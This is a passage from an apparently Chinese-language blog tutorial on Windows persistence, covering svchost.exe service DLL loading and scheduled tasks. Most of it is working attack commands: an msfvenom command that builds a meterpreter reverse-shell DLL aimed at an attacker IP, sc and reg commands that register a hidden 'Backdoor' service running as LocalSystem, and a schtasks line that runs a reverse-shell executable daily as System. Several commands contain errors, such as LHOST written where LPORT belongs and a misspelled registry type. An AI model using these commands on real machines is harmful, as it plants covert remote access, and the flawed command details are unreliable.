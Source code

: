 通过`sc config`命令修改服务的binpath值，或是修改注册表中ImagePath选项来指定目标二进制文件

#### 利用svchost.exe加载

在Windows操作系统中，svchost.exe（Service Host）是一个关键的系统进程，它负责托管和运行多个服务.每个svchost.exe进程加载一个或多个DLL文件，这些文件包含实际的服务代码。

![svchost-rpc](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long-long/svchost-rpc.png)

-k RPCSS标识该服务属于RPCSS组，在子注册表parameters下能够看到调用的dll文件

![svchost-parameters](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/svchost-parameters.png)

当服务启动时，就会加载对应的dll文件,并根据dll文件提供对应的服务

svchost.exe中需要启动的服务都要到

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Winodws NT\CurrentVersion\Svchost`表下注册

![regedic_svchsot](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/regedic_svchsot.png)

攻击者可以通过svchost.exe加载恶意dll文件，具有较高的隐蔽性

+ 通过msf生成恶意dll文件

  ```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.174.131 LHOST=4444 -f dll -o msf.dll
  ```

+ 将生成的DLL文件上传到目标主机system32目录下并执行以下命令注册服务

  ```shell
  #创建名为backdoor的服务，以svchost加载的方式启动，服务分组为RDPCS
  sc create Backdoor binpath= "C:\Windows\System32\svchost.exe -k RDPCS" start= auto obj= LocalSystem
  #将Backdoor的服务启动时加载的dll文件改为msf.dll
  reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\Backdoor\Parameters /v ServiceDll /t REG_EXPAND_SZ /d "c:\Windows\System32\msf.dll"
  #配置服务描述
  reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\Backdoor /v Description /t REG_SZ /d "windows xxx service"
  #配置服务显示名称
  reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\Backdoor /v DisplayName /t REG_SZ /d "Backdoor"
  #创建新的服务分组RDPCS，并将Backdoor添加进去(注册服务)
  reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost" /v netsvc /t REG-MULTI_SZ /d Backdoor
  ```

  当系统重启时，会得到shell

### 计划任务后门

 通过创建计划任务，使目标机器定时执行我们上传的后门文件，执行下列命令，在目标主机上创建计划任务

```shell
schtasks /Create /TN Backdoor /SC daily /ST 08:00 /MO 1 /TR c:\Windows\system32\reverse_tcp.exe /RU System /F 
```
